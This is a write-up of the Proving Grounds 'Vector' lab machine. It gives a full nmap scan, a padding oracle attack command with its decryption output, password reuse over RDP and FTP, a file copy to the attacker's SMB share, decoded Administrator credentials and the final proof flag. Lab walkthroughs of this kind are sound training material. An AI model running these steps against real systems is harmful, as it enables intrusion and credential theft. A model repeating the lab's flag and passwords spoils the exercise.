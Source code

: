 ```yaml
---
title: "Vector - PG"
# author:
#   name: 0xKirito
#   link: https://github.com/0xKirito
date: 2022-01-22 10:13:14 +05:30
categories: [Writeups, Proving Grounds]
tags: [PG, Padding Oracle Attack]
render_with_liquid: false
---
```


## Recon & Enumeration

```bash
# autorecon
nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN full_tcp_nmap.txt 192.168.157.119
```

```
PORT     STATE SERVICE       REASON          VERSION
21/tcp   open  ftp           syn-ack ttl 127 Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp   open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  syn-ack ttl 127 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
2290/tcp open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
3389/tcp open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
| ssl-cert: Subject: commonName=vector
| Issuer: commonName=vector
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-09-20T18:21:33
| Not valid after:  2022-03-22T18:21:33
| MD5:   9f9a 1f6b 3f7b 3178 b7d0 1aa5 9df4 25ad
| SHA-1: 4254 3770 1d9d dcd2 0886 be7f b28d b6b6 2a3f 8c6a
| -----BEGIN CERTIFICATE-----
| MIIC0DCCAbigAwIBAgIQeYu1RKPBi5ZGlb45mRn2PzANBgkqhkiG9w0BAQsFADAR
  <--SNIP-->
| Q4Q5C6rGKL/lLtDEeden9m3tL+GXfLphsxqo6xmaWhW3yZ8oKhi7stxEHWvxeWU1
| /yO+PQ==
|_-----END CERTIFICATE-----
|_ssl-date: 2022-01-21T19:05:31+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: VECTOR
|   NetBIOS_Domain_Name: VECTOR
|   NetBIOS_Computer_Name: VECTOR
|   DNS_Domain_Name: vector
|   DNS_Computer_Name: vector
|   Product_Version: 10.0.17763
|_  System_Time: 2022-01-21T19:04:51+00:00
5985/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
```

- Visit http://192.168.157.119:2290/default.aspx 
- Check comments: 

```
AES-256-CBC-PKCS7 ciphertext: 4358b2f77165b5130e323f067ab6c8a92312420765204ce350b1fbb826c59488
		
Victor's TODO: Need to add authentication eventually..
```

---

## Exploitation 

- Google: AES-256-CBC-PKCS7 ciphertext decrypt 
- Google: AES-256-CBC-PKCS7 ciphertext exploit 
- [Padding Oracle Attack](https://github.com/mpgn/Padding-oracle-attack) 

### Padding Oracle Attack 

```
python3 exploit.py -c 4358b2f77165b5130e323f067ab6c8a92312420765204ce350b1fbb826c59488 -l 16 --host 192.168.157.119:2290 -u '/default.aspx?c=' --error '<span id="MyLabel">0</span>'

[+] Search value block :  1
[+] Found  1 bytes : 04
[+] Found  2 bytes : 0404
[+] Found  3 bytes : 040404
[+] Found  4 bytes : 04040404
[+] Found  5 bytes : 3704040404
[+] Found  6 bytes : 743704040404
[+] Found  7 bytes : 61743704040404
[+] Found  8 bytes : 5661743704040404
[+] Found  9 bytes : 655661743704040404
[+] Found 10 bytes : 6f655661743704040404
[+] Found 11 bytes : 6c6f655661743704040404
[+] Found 12 bytes : 416c6f655661743704040404
[+] Found 13 bytes : 6d416c6f655661743704040404
[+] Found 14 bytes : 726d416c6f655661743704040404
[+] Found 15 bytes : 6f726d416c6f655661743704040404
[+] Found 16 bytes : 576f726d416c6f655661743704040404

[+] Decrypted value (HEX): 576F726D416C6F655661743704040404
[+] Decrypted value (ASCII): WormAloeVat7
```

- `WormAloeVat7`
- We also have a username from TODO note in the comments: Victor 
- `Victor:WormAloeVat7`
- RDP using these credentials 

---

## Privilege Escalation 

- There is a `backup.rar` encrypted file in `Users/victor/Downloads` 
- Start SMBServer and copy the file over to Kali 
- `copy ./backup.rar \\192.168.49.157\share\`
- For whatever reason that didn't work. But there was FTP running on the box and I was able to log in using the same credentials we got. So I copied that file to C:\FTPRoot and logged in via FTP on Kali to get the file 
- `ftp 192.168.157.119 21 => victor:WormAloeVat7`
- `binary` to set binary mode 
- `get backup.rar` to download 

### Extract the RAR File 

```
unrar e backup.rar
Enter password for backup.rar: WormAloeVat7
Extracting from backup.rar
Extracting  backup.txt  OK
```

- `cat backup.txt` 

```
QWRtaW5pc3RyYXRvcjpFdmVyeXdheUxhYmVsV3JhcDM3NQ==
```

- `cat backup.txt | base64 -d`
- `Administrator:EverywayLabelWrap375`
- Log out and RDP again into the machine, this time as the Administrator 

```
C:\Users\Administrator\Desktop>whoami && hostname && ipconfig | findstr IPv4 && type proof.txt
vector\administrator
vector
   IPv4 Address. . . . . . . . . . . : 192.168.157.119
668ac83fd9c03503c34f00b0e4da3a

C:\Users\Administrator\Desktop>
```

